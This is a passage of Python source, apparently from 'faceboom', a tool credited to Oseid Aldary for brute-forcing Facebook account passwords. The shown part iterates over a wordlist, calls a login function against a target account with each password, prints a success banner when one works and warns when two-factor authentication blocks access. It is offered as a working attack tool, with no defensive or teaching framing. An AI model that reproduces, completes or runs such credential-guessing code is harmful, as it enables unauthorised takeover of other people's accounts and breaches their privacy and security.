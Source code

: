         faceboom.banner(target,wordlist,single_passwd)
        loop,passwords = (1,open(wordlist).readlines()) if not single_passwd else ("~",[single_passwd])
        for passwd in passwords:
                passwd = passwd.strip()
                if len(passwd) <6:continue
                write(wi+"["+yl+str(loop)+wi+"] Trying Password[ {"+yl+str(passwd)+wi+"} ]")
                retCode = faceboom.login(target, passwd)
                if retCode:
                    sys.stdout.write(wi+" ==> Login"+gr+" Success\n")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    print(wi+"["+gr+"+"+wi+"] Password [ "+gr+passwd+wi+" ]"+gr+" Is Correct :)")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    if retCode == 2:print(wi+"["+yl+"!"+wi+"]"+yl+" Warning: This account use ("+rd+"2F Authentication"+yl+"):"+rd+" It's Locked"+yl+" !!!")
                    break
                else:
                    sys.stdout.write(yl+" ==> Login"+rd+" Failed\n")
                    loop = loop + 1 if not single_passwd else "~"
        else:
                if single_passwd:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"The Password[ "+yl+passwd+wi+" ] Is Not Correct"+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another password or Wordlist "+gr+":)"+wi)
                else:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"I Can't Find The Correct Password In [ "+yl+wordlist+wi+" ] "+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another Wordlist. "+gr+":)"+wi)
        sys.exit(1)
   else:
       print(parse.usage)
       sys.exit(1)


if __name__=='__main__':
    Main()


##############################################################
#####################                #########################
#####################   END OF TOOL  #########################
#####################                #########################
##############################################################
#This Tool by Oseid Aldary
#Have a nice day :)
#GoodBye
